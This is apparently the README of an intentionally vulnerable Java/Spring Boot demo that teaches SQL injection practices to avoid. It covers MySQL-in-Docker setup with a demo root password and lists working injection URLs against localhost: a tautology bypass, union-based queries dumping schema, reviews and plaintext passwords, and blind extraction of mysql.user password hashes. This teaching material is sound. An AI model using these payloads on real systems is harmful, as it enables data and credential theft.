


# SQL Injection in Java: Practices to Avoid

Thanks
    https://sec.okta.com/articles/2020/12/sql-injection-java-practices-avoid

### Requirements
* Docker desktop
* Java 8

### Start Mysql in Docker
Since we need to show vulnerabilities with Stored procedure and 'Principle of least privileges' we are using a Mysql
instance running in Docker

Build Docker image 

    cd mysql-in-docker/sqlinjection

    docker build -t sqlinjection_demo:latest .

Run docker 

    docker run -p 3307:3306 --name local-mysql -e MYSQL_ROOT_PASSWORD=11asd097asd -d sqlinjection_demo:latest

### Run the application

    Use IDEA to run the application, as then configuration works with DB correctly.
    

    As an option - MAVEN configuration can be used

NOTE: When starting application from the console with **MavenW** - in is necessary to assign proper ENV variables.

    cd ../../

    ./mvnw spring-boot:run

    
### Connect to mySql
To connect to mySql use

    Open terminal and run " docker exec -it local-mysql mysql -h 127.0.0.1 -P 3307 -uroot -p11asd097asd"  
    
    Feel free to inspect mySql content:
    mysql> "show schemas;"
    mysql> "show databases;"
    
    select * from employees.employee;       Note: initialized with the apllication
    select * from management.employee_review;
    SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
    SELECT * FROM INFORMATION_SCHEMA.TABLES; 
    select authentication_string from mysql.user where User='empdb_user'; 
    
        
# Additional info

    
Normal call

    http://127.0.0.1:8080/filterUserUnSafe?name=Frodo
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret
    
Simple SQLi

    http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo'or'1'='1  

Union based SQLi to get table_schema,table_name FROM information_Schema.tables
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(table_schema,'-----', table_name), table_name, 'STAFF'   from information_Schema.tables where '1'='1

Union based SQLi to get data from any table

    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo’ union all select 1, concat(review,’-----',rating),review,  ‘STAFF’  from management.employee_review where ‘1’=’1

Union based SQLi to get plain passwords
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(name,'-----',password), password, 'STAFF'   from employees.employee where '1'='1

Blind SQLi to get chars from mysql.user
    
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret' and (select CASE WHEN (substring(authentication_string,1,1) = '$' ) THEN true ELSE false END from  mysql.user where User = 'empdb_user') or ' 

?    
Blind SQL injection to get some data from INFORMATION_SCHEMA

    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret%27%20and%20(select%20CASE%20WHEN%20(substring(authentication_string,1,1)%20=%20%27$%27%20)%20THEN%20true%20ELSE%20false%20END%20from%20%20mysql.user%20where%20User%20=%20%27empdb_user%27)%20or%20%27    